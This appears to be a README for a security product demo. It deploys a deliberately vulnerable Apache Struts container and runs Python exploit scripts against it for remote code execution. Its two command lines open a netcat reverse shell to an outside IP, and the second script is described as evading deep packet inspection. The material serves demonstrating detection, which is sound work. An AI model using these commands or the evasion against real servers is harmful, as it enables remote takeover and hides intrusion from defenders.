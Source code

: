 # struts-demo

Scripts for struts RCE demo and yaml file to deploy vulnerable container running struts super-app tomcat website.

## Prep

We will be using a struts RCE demo application.

It can be installed via Helm from the `helm/struts-rce` directory or simply adding this git repository to the Rancher Catalog and deploy the struts-rce application.

Alternate deployment file (struts.yaml) is available in the current directory and use a Load Balancer to expose the application.

## Exploit

Use the Ingress name of the website or Load Balancer IP with the python scripts to exploit a remote code execution vulnerability in the struts container.

Use the struts1.py first (insert your own IP addresses for the website and the reverse shell using 1337 (LEET) port address.
```
python3 struts1.py http://xxx.xxx.xxx.xxx:8080/super-app/orders/3 'nc -nv 123.456.789.100 1337 -e /bin/sh'
```

Exploit should be blocked and alerts appear in Notifications->Security Events.

Then use the struts-pwn2.py script to avoid DPI threat detection.
```
python struts-pwn2.py --exploit --url 'http://xxx.xxx.xxx.xxx:8080/super-app/orders/3' -c 'nc -nv 123.456.789.100 1337 -e /bin/sh'
```
